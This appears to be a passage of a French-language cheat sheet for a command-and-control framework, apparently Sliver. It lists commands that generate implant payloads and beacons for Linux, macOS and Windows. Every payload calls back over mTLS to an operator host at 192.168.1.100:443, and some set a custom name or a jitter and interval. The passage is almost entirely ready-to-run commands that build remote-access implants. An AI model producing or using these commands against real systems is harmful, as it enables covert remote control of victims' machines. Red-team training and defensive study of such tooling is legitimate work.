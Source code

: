 ### 2.2 Payload Linux
```bash
# Payload Linux 64-bit
generate --mtls 192.168.1.100:443 \
    --os linux \
    --arch amd64 \
    --format elf \
    --save /tmp/linux_x64

# Payload Linux 32-bit  
generate --mtls 192.168.1.100:443 \
    --os linux \
    --arch 386 \
    --format elf \
    --save /tmp/linux_x86
```

### 2.3 Payload macOS
```bash
# Payload macOS
generate --mtls 192.168.1.100:443 \
    --os darwin \
    --arch amd64 \
    --format macho \
    --save /tmp/macos_x64
```

---

## 3. Payloads Avancés et Personnalisés

### 3.1 Configuration avec nom personnalisé
```bash
generate --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format exe \
    --name "MonPayloadCustom" \
    --save /tmp/custom_payload.exe
```

### 3.2 Beacon avec intervalle personnalisé
```bash
generate beacon \
    --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format exe \
    --jitter 30s \
    --interval 60s \
    --save /tmp/beacon_custom.exe
```
